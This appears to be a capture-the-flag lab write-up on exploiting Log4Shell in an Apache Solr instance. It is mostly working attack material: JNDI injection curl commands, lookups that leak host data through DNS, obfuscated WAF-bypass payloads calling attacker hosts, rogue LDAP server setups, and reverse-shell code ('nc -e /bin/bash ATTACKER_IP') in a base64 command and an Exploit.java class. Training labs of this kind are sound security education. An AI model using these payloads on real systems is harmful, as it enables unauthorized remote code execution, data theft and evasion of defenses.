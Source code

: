 # Solar (log4shell tutorial)

## nmap

```
Nmap scan report for 10.10.186.220
Host is up, received user-set (0.15s latency).
Scanned at 2021-12-29 15:41:51 EST for 14s

PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:35:e1:4f:4e:87:45:9e:5f:2c:97:e0:da:a9:df:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTRQx4ZmXMByEs6dg4VTz+UtM9X9Ljxt6SU3oceqRUlV+ohx56xdD0ZPbvD0IcYwUrrqcruMG0xxgRxWuzV+FQAJVQe76ED966+lwrwAnUsVFQ5apw3N+WKnD53eldUZRq7/2nGQQizrefY7UjAGX/EZonSVOWZyhVyONu2VBBwg0B0yA3UBZV+yg+jGsrZ9ETEmfNbQRkbodEAwoZrGQ87UEdTkfj+5TGmfzqgukmBvvVV7KoXgSQIZNkqRmkAVKKXeEfydnOR37KMglBUXIR/50jkIswxWbNk2OtS6fz6UiPeEY39f4f0gwLx/HwUyel9yzH4dkDb+LBS6X/X9b9
|   256 b2:fd:9b:75:1c:9e:80:19:5d:13:4e:8d:a0:83:7b:f9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAqCgW5Mlx2VpC61acc0G4VMZUAauQDoK5xIzdHzdDLPXt0GqsoIw1fuwTSSzSy8RFmGU5PNHiWn0egoUwlXdc4=
|   256 75:20:0b:43:14:a9:8a:49:1a:d9:29:33:e1:b9:1a:b6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFZ/jrfDX1aK1I0A/sLRVb2qoCF9xHWbVW+gBCV8dSmg
111/tcp open  rpcbind syn-ack ttl 61 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8983/tcp open  http    syn-ack ttl 61 Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.186.220:8983/solr/
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running [Apache Solr](https://solr.apache.org/) (version 8.11.0), which is vulnerable to log4shell.

![](img/web-main-solr.png)

## exploit

Looking at provided "solr.log" file, we see connection to `/admin/cores` URL endpoint is logged, and it includes the URL query params in the log. This is our exploit vector where we can supply attacker-controlled data. In other applications it could be in the `User-Agent` HTTP Header, the username of a login form, etc. In general, we must supply a string in the form:

```
${jndi:ldap://ATTACKERCONTROLLEDHOST}
```

First prove that exploit is possible.

```sh
# start netcat listener to catch connection from victim
nc -lvnp 9999

# send malicious GET request with payload in query params
curl 'http://10.10.203.74:8983/solr/admin/cores?foo=$\{jndi:ldap://10.6.38.182:9999\}'

# At this point the netcat listener should show "Ncat: Connection from <VICTIM_IP>."
# It also shows garbage bytes because this is an LDAP request, not HTTP
```

Note, due to the use of the `$` (dollar-sign character) in the request syntax, you must ensure you wrap the URL within single-quotes so bash does not interpret it as a variable. Additionally, you must escape out the `{ }` (curly braces) with a single backslash character, so those are not misrepresented in the curl command arguments.

If using `httpie` instead of `curl`, you can omit the backslashes escaping the curly braces (it automatically URL-encodes them, which still works):

```sh
pip install httpie
http 'http://10.10.203.74:8983/solr/admin/cores?foo=${jndi:ldap://10.6.38.182:9999}'
```

Before exploiting, other useful commands might be injected to gather information about the victim:

```java
${sys:os.name}  // OS name
${java:os}  // OS name
${sys:os.version}  // OS version
${sys:os.arch}  // CPU architecture
${sys:user.name}  // username
${env:USERNAME}  // username (windows)
${env:user}  // username (unix)
${sys:user.home}  // user's home dir
${sys:user.dir}  // current working directory
${sys:file.separator}  // path separator ("/" on unix, "\" on windows)
${sys:java.version}  // java version in use
${sys:java.home}  // java installation directory
${sys:java.io.tmpdir}  // default java tempfile path
${web:rootDir}  // if vulnerable app is web app, can see where web root files are
${log4j:configParentLocation}  // directory containing app config
${env:path}  // user's PATH env variable
${env:hostname}  // hostname
${hostName}  // hostname
```

To inject these commands and get the output, set up a random temporary subdomain on [http://dnslog.cn/](http://dnslog.cn/). This service lets you see logged subdomain DNS queries. Then inject the commands as a subdomain to the one they provide you and check the logs. For example, your exploit payload would look like:

```
${jndi:ldap://${sys:os.name}-${sys:os.version}-${sys:os.arch}.yoursubdomain.dnslog.cn}
```

Other great resources/info, including WAF bypasses found [here](https://infosecwriteups.com/log4shell-simplified-all-you-need-to-know-about-cve-2021-44228-3c70d59c307a). Examples:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

Note the `rmi` protocol used in the last one. That can also be used instead of LDAP with the `marshalsec` tool illustrated later.

Now stand up a rogue JNDI server (reference: [here](https://www.sprocketsecurity.com/blog/how-to-exploit-log4j-vulnerabilities-in-vmware-vcenter)):

```sh
# install prerequisites
sudo apt install -y java-common maven

# download source
cd /opt
git clone https://github.com/veracode-research/rogue-jndi

# build the tool
cd /opt/rogue-jndi
mvn package

# craft exploit string as base64
EXPLOIT=$(echo "nc -e /bin/bash ATTACKER_IP 9999" | base64)

# start the rogue JNDI server
java -jar target/RogueJndi-1.1.jar \
    --command "bash -c {echo,${EXPLOIT}}|{base64,-d}|{bash,-i}" \
    --hostname "ATTACKER_IP"
```

Then send your payload to the victim:

```
curl 'http://10.10.99.61:8983/solr/admin/cores?foo=$\{jndi:ldap://10.6.38.182:1389/o=reference\}'
```

Note: To get the exploit to work, you may have to try some of the other options exported by the rogue-jndi server (e.g. tomcat, groovy, etc.)

----

Alternative JNDI exploiter [here](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip)

```sh
# extract JNDIExploiter
unzip JNDIExploit.v1.2.zip
# run exploit server
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ATTACKER_IP -p 8888
# starts LDAP listener on 1389 and web server on port provided (8888)

# trigger exploit
# will execute 'touch /tmp/pwned'
curl http://VICTIM -H 'X-Api-Version: ${jndi:ldap://ATTACKER_IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

Note: didn't actually try this one. Got instructions from [here](https://github.com/christophetd/log4shell-vulnerable-app).

----

More complex exploit using JNDI referral server with manual payload:

```sh
# get source
cd /opt
git clone https://github.com/mbechler/marshalsec

# build tool (note: requires Java 8 JDK and maven installed)
sudo apt install -y default-jdk default-jre maven
mvn clean package -DskipTests

# start the JNDI server
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8000/#Exploit"

# start a web server on port 8000
python3 -m http.server
# -or-
php -S 0.0.0.0:8000
# -or- (on systems with busybox installed)
busybox httpd
```

Then make a file called `Exploit.java`:

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash ATTACKER_IP 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Then compile the exploit (will create an `Exploit.class` file):

```sh
javac Exploit.java -source 8 -target 8  # this way worked on my kali box
# if you only have Java 8 JDK installed, you can omit the "-source 8 -target 8" args
```

Finally, trigger the exploit:

```sh
curl 'http://VICTIM_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER_IP:1389/Exploit\}'
```

Couldn't get this one working originally, but was running Java 11 by default and compiling without the `-source 8 -target 8` flags, so that was the issue. Adding the flags got the exploit working.